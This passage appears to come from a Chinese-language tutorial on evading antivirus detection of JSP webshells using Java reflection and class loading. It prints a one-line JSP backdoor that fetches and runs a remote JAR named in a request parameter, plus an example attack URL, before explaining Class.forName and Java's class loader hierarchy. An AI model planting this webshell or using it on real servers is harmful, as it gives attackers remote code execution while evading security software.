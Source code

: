 其实到这里，利用Java的反射机制来绕过查杀软件检测已经讲的差不多了。但是查资料过程中，发现下面这段比较老的利用Java反射技术的后门代码：

```jsp
<%=Class.forName("Load",true,new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL(request.getParameter("u"))})).getMethods()[0].invoke(null, new Object[]{request.getParameterMap()})%>
```

利用起来像这样

`http://target.com/reflect.jsp?u=http://somesite.com/some.jar&password=A `

仔细看会发现：代码中的Class.forName()方法用了三个参数，而我们上面部分讲的代码中Class.forName()方法只用了一个参数。查阅API文档，发现Class.forName()方法是有两种形式，然后就注意到了Java类加载器ClassLoader和类加载机制。

![Class.forName](forName.png)

### 0x05：使用Java类加载机制绕过检测

Java类加载机制简单来说就是JVM查找到类的所在位置，并将找到的Java类的字节码装入内存，生成对应的Class对象。其中有几个重要的概念如下：

#### Class对象

> 一个.java源码文件经过编译生成.class字节码文件，可以认为是Java编译器创建了一个可以被JVM识别并加载的Class对象。这个Class对象就可以看成是.class文件或者说Class对象被保存在了.class文件中。

#### Java自带的三个类加载器

- Bootstrap Classloder 
- Extention ClassLoader
- App ClassLoader

上一级称为下一级的父加载器，加载的先后顺序依次是：

`Bootstrap Classloder => Extention ClassLoader => App ClassLoader `

对应的System.getProperty路径查找顺序：

`sun.boot.class.path => java.ext.dirs => java.class.path`

借用别人的一张图(**双亲委托**)简单说明类加载的过程：
